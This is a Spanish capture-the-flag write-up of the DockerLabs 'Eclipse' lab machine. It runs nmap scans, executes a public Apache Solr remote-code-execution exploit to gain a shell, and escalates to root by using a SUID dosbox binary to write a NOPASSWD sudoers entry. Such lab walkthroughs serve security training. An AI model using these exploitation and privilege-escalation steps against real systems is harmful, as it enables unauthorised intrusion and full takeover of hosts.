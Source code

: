 # Máquina Eclipse

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

Creador -> [Xerosec](https://hack.xero-sec.com/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack
8983/tcp open  unknown syn-ack

```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p80,8983 172.17.0.2 -oN targeted
________________________________________________
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Epic Battle
8983/tcp open  http    Apache Solr
| http-title: Solr Admin
|_Requested resource was http://172.17.0.2:8983/solr/
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

***

## Explotación

Accedemos a la web del puerto 8983 y encontramos un panel de administración de **solr**. Buscaremos exploits para vulnerabilidades en **Solr**

![Pasted image 20240423203423](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/8fa817ad-01e3-440a-a457-0cb1e1329ed3)

Hay un Remote Code Execution en concreto que llama la atención, lo descargamos y lo ejecutamos sobre la IP víctima:

```shell
searchsploit -m java/webapps/47572.py
python3 47572.py 172.17.0.2
----------------------------------------------
OS Realese: Linux, OS Version: 6.1.0-1parrot1-amd64
if remote exec failed, you should change your command with right os platform

Init node 0xDojo Successfully, exec command=whoami
RCE Successfully @Apache Solr node 0xDojo
   ninhack
```

Por defecto ejecuta el comando **whoami** y vemos que ha sido exitoso por lo que trataremos de que ejecute otro comando que nos envíe una **Reverse Shell**.

Nos pondremos en escucha con **netcat**

![Pasted image 20240423213014](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/d71a6063-c956-4f6b-b4f4-dad7e43f7ffb)

Estamos dentro !

***

### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```

(hacemos **ctrl + Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina. Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

***

## Escalada de privilegios

Revisamos las archivos con permisos **SUID**:

```shell
find / -perm -4000 2>/dev/null
------------------------------------
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/dosbox
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Podemos ejecutar **dosbox** como **root**. Lo explotamos modificando el **etc sudoers** de nuestro user:

```shell
LFILE='\etc\sudoers.d\ninhack'
/usr/bin/dosbox -c 'mount c /' -c "echo ninhack ALL=(ALL) NOPASSWD: ALL >c:$LFILE" -c exit
```

```shell
sudo su
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo !
